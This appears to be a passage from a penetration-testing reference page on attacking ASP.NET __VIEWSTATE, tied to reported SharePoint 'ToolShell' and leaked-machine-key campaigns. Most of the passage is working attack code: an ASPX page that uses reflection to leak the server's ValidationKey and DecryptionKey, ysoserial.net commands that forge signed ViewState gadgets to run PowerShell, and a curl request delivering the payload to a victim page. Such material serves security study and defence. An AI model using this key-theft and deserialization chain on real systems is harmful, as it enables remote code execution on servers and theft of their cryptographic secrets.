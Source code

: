 Attackers who are able to **upload or execute arbitrary ASPX code** inside the target web root can directly retrieve the secret keys that protect `__VIEWSTATE` instead of bruteforcing them.  
A minimal payload that leaks the keys leverages internal .NET classes through reflection:

```csharp
<%@ Import Namespace="System.Web.Configuration" %>
<%@ Import Namespace="System.Reflection" %>
<script runat="server">
public void Page_Load(object sender, EventArgs e)
{
    var asm = Assembly.Load("System.Web");
    var sect = asm.GetType("System.Web.Configuration.MachineKeySection");
    var m = sect.GetMethod("GetApplicationConfig", BindingFlags.Static | BindingFlags.NonPublic);
    var cfg = (MachineKeySection)m.Invoke(null, null);
    // Output: ValidationKey|DecryptionKey|Algorithm|CompatibilityMode
    Response.Write($"{cfg.ValidationKey}|{cfg.DecryptionKey}|{cfg.Decryption}|{cfg.CompatibilityMode}");
}
</script>
```

Requesting the page prints the **ValidationKey**, **DecryptionKey**, the encryption algorithm and the ASP.NET compatibility mode. These values can now be fed straight into **ysoserial.net** to create a valid, signed `__VIEWSTATE` gadget:

```bash
ysoserial.exe -p ViewState -g TypeConfuseDelegate \
  -c "powershell -nop -c \"whoami\"" \
  --generator=<VIEWSTATE_GENERATOR> \
  --validationkey=<VALIDATION_KEY> --validationalg=<VALIDATION_ALG> \
  --decryptionkey=<DECRYPTION_KEY> --decryptionalg=<DECRYPTION_ALG> \
  --islegacy --minify
curl "http://victim/page.aspx?__VIEWSTATE=<PAYLOAD>"
```

This **key-exfiltration primitive** was mass-exploited against on-prem SharePoint servers in 2025 ("ToolShell" – CVE-2025-53770/53771), but it is applicable to any ASP.NET application where an attacker can run server-side code.

## 2024-2025 Real-world Exploitation Scenarios and Hard-coded Machine Keys

### Microsoft “publicly disclosed machine keys” wave (Dec 2024 – Feb 2025)
Microsoft Threat Intelligence reported mass exploitation of ASP.NET sites where the *machineKey* had previously been leaked on public sources (GitHub gists, blog posts, paste sites). Adversaries enumerated these keys and generated valid `__VIEWSTATE` gadgets with the newer `ysoserial.net` 1.41 `--minify` and `--islegacy` flags to evade WAF length limits:

```bash
ysoserial.exe -p ViewState -g TypeConfuseDelegate -c "whoami" \
  --validationkey=<LEAKED_VALIDATION_KEY> --validationalg=SHA1 \
  --decryptionkey=<LEAKED_DECRYPTION_KEY> --decryptionalg=AES \
  --generator=<VIEWSTATEGEN> --minify
```
